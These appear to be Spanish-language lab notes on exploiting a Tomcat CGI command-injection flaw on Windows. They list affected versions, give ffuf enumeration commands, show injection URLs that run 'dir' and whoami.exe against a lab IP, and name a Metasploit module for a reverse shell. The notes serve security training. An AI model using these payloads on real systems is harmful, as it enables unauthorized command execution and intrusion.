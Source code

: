 - Posee una vulnerabilidad en los sistemas Windows que tengan el parametro "enableCmdLineArguments" activado.
- Las versiones afectadas son:
      - 9.0.0.M1 a 9.0.17
      - 8.5.0 a 8.5.39
      - 7.0.0 a 7.0.93


### Enum
##### Buscar cmds:
    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
##### Bucar bachs:

    ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat

### EXPLOITATION
##### Agregamos como parámetro el comando que queremos correr:
    http://10.129.204.227:8080/cgi/welcome.bat?&dir


si el comando es complicado, deberemos encodear en URL.
##### Ej:
para whoami:

            http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
Encodeado:

            http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
            

#### Con metasploit:
Muy seguido nos encontramos que es difícil explotar estas apps puesto que el proceso es engorroso, metasploit tiene un módulo capaz de permitirnos una reverseshell

use exploit/windows/http/tomcat_cgi_cmdlineargs
